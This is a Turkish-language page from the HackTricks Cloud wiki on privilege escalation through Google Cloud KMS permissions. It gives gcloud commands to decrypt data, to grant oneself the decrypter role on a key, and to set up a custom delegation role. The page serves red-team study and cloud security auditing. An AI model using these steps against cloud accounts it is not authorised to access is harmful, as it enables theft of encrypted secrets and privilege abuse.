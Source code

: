 # GCP - KMS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## KMS

KMS hakkında bilgi:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS'de **izinlerin** yalnızca Organizasyonlar, Klasörler ve Projelerden değil, aynı zamanda **Anahtar Halkalarından** da **devralındığını** unutmayın.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Bu izni, üzerinde bu izne sahip olduğunuz anahtarla **bilgileri şifre çözmek için** kullanabilirsiniz.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Bu izne sahip bir saldırgan, **kendisine izinler verebilir** ve anahtarı kullanarak bilgileri şifrelerini çözebilir.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

İşte bu delege işleminin nasıl çalıştığına dair kavramsal bir açıklama:

1. **Hizmet Hesabı A**, KMS'de belirli bir anahtarı kullanarak şifre çözme işlemi için doğrudan erişime sahiptir.
2. **Hizmet Hesabı B**, `useToDecryptViaDelegation` iznine sahiptir. Bu, Hizmet Hesabı A adına KMS'den veri şifre çözme talep etmesine olanak tanır.

Bu **izin, KMS hizmetinin bir şifre çözme talebi yapıldığında izinleri kontrol etme şekliyle örtük olarak kullanılır**.

Google Cloud KMS API'sini (Python veya başka bir dilde) kullanarak standart bir şifre çözme talebi yaptığınızda, hizmet **talep eden hizmet hesabının gerekli izinlere sahip olup olmadığını kontrol eder**. Eğer talep, **`useToDecryptViaDelegation`** iznine sahip bir hizmet hesabı tarafından yapılırsa, KMS bu **hesabın anahtarın sahibi olan varlık adına şifre çözme talep etmesine izin verilip verilmediğini doğrular**.

#### Delegasyon İçin Ayarlama

1. **Özel Rolü Tanımlayın**: Özel rolü tanımlayan bir YAML dosyası oluşturun (örneğin, `custom_role.yaml`). Bu dosya, `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` iznini içermelidir. İşte bu dosyanın nasıl görünebileceğine dair bir örnek:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Özel Rolü gcloud CLI Kullanarak Oluşturun**: Google Cloud projenizde özel rol oluşturmak için aşağıdaki komutu kullanın:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]` ifadenizi Google Cloud proje kimliğinizle değiştirin.

3. **Özel Rolü Bir Hizmet Hesabına Verin**: Bu izni kullanacak bir hizmet hesabına özel rolünüzü atayın. Aşağıdaki komutu kullanın:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` ve `[SERVICE_ACCOUNT_EMAIL]` değerlerini sırasıyla proje kimliğiniz ve hizmet hesabının e-posta adresi ile değiştirin.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
